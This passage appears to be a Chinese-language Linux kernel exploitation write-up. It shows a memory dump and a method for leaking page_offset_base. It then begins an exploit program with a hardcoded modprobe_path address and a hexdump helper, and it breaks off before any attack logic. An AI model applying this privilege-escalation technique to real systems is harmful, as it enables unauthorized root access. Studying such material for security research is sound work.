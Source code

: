 ```
0xffff9f5d4009cff0: 0X0000000000000000 0X0000000005c0c067
0xffff9f5d4009d000: 0xffffffff97c00030 0X0000000000000901
0xffff9f5d4009d010: 0X00000000000006b0 0X0000000000000000
0xffff9f5d4009d020: 0X0000000000000000 0X0000000000000000
```  
  
至于 page_offset_base 可以通过 object 上的 free list 泄露的堆地址与上 0xFFFFFFFFF0000000 获取。不同版本可查看vmmap。  
### exp  
```
#ifndef _GNU_SOURCE
#define _GNU_SOURCE
#endif

#include <asm/ldt.h>
#include <assert.h>
#include <ctype.h>
#include <errno.h>
#include <fcntl.h>
#include <linux/keyctl.h>
#include <linux/userfaultfd.h>
#include <poll.h>
#include <pthread.h>
#include <sched.h>
#include <semaphore.h>
#include <signal.h>
#include <stdbool.h>
#include <stdint.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <sys/ioctl.h>
#include <sys/ipc.h>
#include <sys/mman.h>
#include <sys/msg.h>
#include <sys/prctl.h>
#include <sys/sem.h>
#include <sys/shm.h>
#include <sys/socket.h>
#include <sys/syscall.h>
#include <sys/types.h>
#include <sys/wait.h>
#include <sys/xattr.h>
#include <unistd.h>
#include <sys/io.h>

size_t modprobe_path =0xFFFFFFFF82444700;

voidqword_dump(char *desc, void *addr, int len)
{
uint64_t*buf64 =(uint64_t*) addr;
uint8_t*buf8 =(uint8_t*) addr;
if(desc !=NULL){
printf("[*] %s:\n", desc);
}
for(int i =0; i < len /8; i +=4){
printf("  %04x", i *8);
for(int j =0; j <4; j++){
            i + j < len /8?printf(" 0x%016lx", buf64[i + j]):printf("                   ");
}
printf("   ");
for(int j =0; j <32&& j + i *8< len; j++){
printf("%c",isprint(buf8[i *8+ j])? buf8[i *8+ j]:'.');
}
```